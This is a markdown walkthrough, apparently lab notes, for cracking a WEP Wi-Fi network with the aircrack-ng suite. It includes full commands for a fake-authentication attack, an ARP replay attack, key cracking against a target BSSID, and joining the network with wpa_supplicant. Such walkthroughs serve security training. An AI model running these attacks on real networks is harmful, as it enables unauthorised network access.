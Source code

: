 # Wep network

Stolen from [wifichallengelab walkthrough](https://r4ulcl.com/posts/walkthrough-wifichallenge-lab-2.0/#07-get-wifi-old-password) and [aircrack walkthrough](https://www.aircrack-ng.org/doku.php?id=simple_wep_crack)!

## Tools

- [airmon-ng](https://linux.die.net/man/1/airmon-ng)
- [airodump-ng](https://linux.die.net/man/1/airodump-ng)
- [aireplay-ng](https://linux.die.net/man/1/aireplay-ng)
- [aircrack-ng](https://linux.die.net/man/1/aircrack-ng)
- [wpa_supplicant](https://linux.die.net/man/8/wpa_supplicant)

## Reconnaissance

1. Set the `wlan0` interface into monitor mode

```bash
sudo airmon-ng start wlan0
```

> Note: Do not run `airmon-ng check kill` as it will kill important processes required to run was

2. Conduct reconnaissance using the `wlan0mon` interface to find the target wep network

```bash
sudo airodump-ng wlan0mon --band abg --wps --manufacturer
```

Here is a breakdown of the above command
```bash
sudo               # Run the command as `root`
  airodump-ng      # The program we want to run
    wlan0mon       # The wireless interface
    --band abg     # Hop to channels in the a, b, and g frequency bands
    --wps          # List Wireless Protected Setup (WPS) information
    --manufacturer # Display the manufacturer of devices (based on their OUI)
```

3. Capture wep traffic with airodump

```bash
sudo airodump-ng wlan0mon -c 1 -w /tmp/wep
```

4. Run fakeauth attack with airodump-ng

```bash
sudo aireplay-ng -1 3600 -q 10 -a 12:3C:86:9A:C4:E0 wlan0mon
```

5. Run arp replay attack to generate arp traffic

```bash
sudo aireplay-ng -3 -b 12:3C:86:9A:C4:E0 -h 02:00:00:00:00:00 wlan0mon
```

6. Crack the wep pcap

```bash
aircrack-ng -b 12:3C:86:9A:C4:E0 /tmp/wep*.cap
```

7. Create a `wpa_supplicant` configuration file based off of the information gathered in step 2

- Edit the configuration file

```
network={
  ssid="was-wep"
  key_mgmt=NONE
  wep_key0=badbeefcaf # chuck the hex key here
  wep_tx_keyidx=0
}
```

8. Connect to the wep network

```bash
sudo wpa_supplicant -i wlan1 -c wep_network.conf
sudo dhclient wlan1
```
